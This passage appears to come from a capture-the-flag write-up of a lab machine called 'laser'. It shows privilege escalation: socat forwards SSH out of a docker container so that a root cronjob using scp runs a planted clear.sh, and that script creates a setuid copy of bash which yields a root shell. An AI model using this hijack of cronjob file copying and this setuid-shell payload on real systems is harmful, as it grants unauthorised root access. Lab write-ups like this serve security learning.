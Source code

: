 So I thought of what if we could port forward the ssh service to the solr machine? Doing that so, the `clear.sh` will run from the `solr`'s `/tmp` folder. But what next? If the `scp` is used to copy the `/tmp/clear.sh` of the docker and we port forwarded it to the `solr`'s machine that means all the cronjobs involving the `sshpass` and docker. So, first the `clear.sh` is copied to the `/tmp` folder then it is being executed and then it is being deleted. Since the cron wasn't recursive and `scp` was being used for copying the file, we can create a file in the `solr` and it'll be executed by the root of our system. 

```prolog
root@20e3289bc183:/tmp# service ssh stop
 * Stopping OpenBSD Secure Shell server sshd                                                        [ OK ] 
root@20e3289bc183:/tmp# 
root@20e3289bc183:/tmp# ./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.18.0.1:22
```

I used socat to do the Port Forward and Stopped the SSH service.

I just make a simple `clear.sh` and placed it in solr's `/tmp`  

```prolog
#!/bin/sh

cp /bin/bash /tmp/root; chmod 4775 /tmp/root
```

After few minutes the file is created.

```prolog
solr@laser:/tmp$ ls -la root 
-rwsrwxr-x 1 root root 1183448 Aug 23 10:03 root
solr@laser:/tmp$ ./root -p
root-5.0# whoami;hostname
root
laser
```

We own the box.